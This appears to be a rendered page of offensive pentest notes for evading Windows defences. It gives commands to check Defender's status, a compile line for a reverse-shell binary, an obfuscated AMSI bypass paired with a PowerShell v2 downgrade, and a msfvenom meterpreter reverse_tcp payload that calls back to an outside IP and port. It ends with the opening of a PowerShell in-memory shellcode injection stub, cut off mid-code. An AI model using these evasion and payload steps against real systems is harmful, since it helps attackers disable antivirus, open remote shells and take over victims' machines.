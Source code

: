 ### Check If Windows Defender is Running

```
sc.exe query windefend
```

Or With PowerShell

```
Get-Service windefend
```

### Prometheus

```
i686-w64-mingw32-g++ /opt/prometheus/prometheus.cpp -o thescriptkid.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### Amsi bypass

https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/

_Downgrade to powershell version 2 first_

```
powershell -version 2
```

_Enter below and rerun blocked PS script_

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

### Powershell In-Memory Injection

**Step 1**

Create meterpreter payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.241 LPORT=9000 -f powershell
```

**Step 2**

Insert shellcode in the `$sc=` variable

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint  dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 
```